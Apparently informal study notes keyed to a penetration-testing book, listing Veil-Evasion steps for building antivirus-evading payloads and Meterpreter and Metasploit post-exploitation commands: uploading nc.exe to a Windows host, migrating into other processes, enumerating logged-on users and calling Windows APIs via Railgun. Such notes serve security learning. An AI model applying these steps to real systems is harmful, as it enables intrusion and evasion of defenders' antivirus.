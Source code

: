 ### pg 270, 300
Veil-Evasion - evasion of antivirus software
something something this is a test should only need to wait for 10 min
veil  - open veil (maybe need to cd to Veil-Evasion.py and ./Veil-Evasion.py)
list  - shows all payload encrypters
set options  - setting parameters
generate  - generates the payload
1  - asks if msfvenom payload or custom shell
select payload
set payload options
enter name of output files
1  - Pyinstaller or Py2Exe

Post Exploitation 277, 307

### pg 278, 308
Meterpreter - Post Exploitation

Must be in msfconsole
seesions -l  - shows all open sessions
sessions -i 1  -  interact with the first session

upload `file path` `destination`  - upload local files to remote machine when wget and curl are not installed
upload /usr/share/windows-binaries/nc.exe C:\\  - upload a file to C drive remember to escape the backslash

getuid  - get user id, the name of the account on the machine that is exploited

### pg 280, 310
Meterpreter Scripts - running Metepreter srcipts from a Meterpreter console
Meterpreter scripts saved in /usr/share/metasploit-framwork/scripts/meterpreter

ps - shows all process status, pick one to hijack
run `script name` -h  - h for help
run migrate -p 1144  - migrate the connection to process 1144 which could be anything, try to pick something vulnerable

### pg 281, 311
Metasploit Post-Exploitation Modules
Ctrl+Z  - set the session session in the background
use post/windows/gather/enum_logged_on_users  - shows all used logged on to a machine on a session
set SESSION 1  - the number of the session 
exploit

### pg 283, 213
Railgun - Meterpreter Extension for Windows API interaction
Railgun runs on Ruby
In the session
irb  - Ruby shell
client.railgun.shell32.IsUserAdmin
exit  - drops out of the Ruby interpreter
